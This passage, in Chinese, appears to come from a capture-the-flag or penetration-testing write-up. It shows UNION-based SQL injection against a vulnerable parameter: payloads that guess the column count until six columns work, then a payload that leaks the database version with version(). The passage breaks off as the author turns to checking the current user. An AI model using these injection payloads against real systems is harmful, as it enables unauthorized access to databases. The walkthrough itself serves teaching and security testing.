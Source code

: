 知道这容易受到 SQLi 的攻击，我测试了各种有效负载来识别运行在后面的查询。我首先尝试了联合注射:

```
1' UNION SELECT 1,2,3; -- -
```

![](img/3d289c6202ea0998182fad8dc66d3c63.png)

在这些情况下，您只需枚举查询中使用了多少列，因为 UNION 运算符要求两端具有相同的列。猜测之后，如果我选择 6 列，响应会有所不同:

```
1' UNION SELECT 1,2,3,4,5,6; -- -
```

![](img/e6637d130d3108fad81a1d65a2dce632.png)

知道我猜到了正确的列数，我就可以使用 SQL 查询来代替列数。

```
1' UNION SELECT 1,2,3, version(),5,6; -- -
```

它现在泄漏的是数据库版本，而不是数字“4”:

![](img/877261b4a502ba76a9a1749f2b215ab1.png)

我还可以在我们的上下文中检查当前用户:
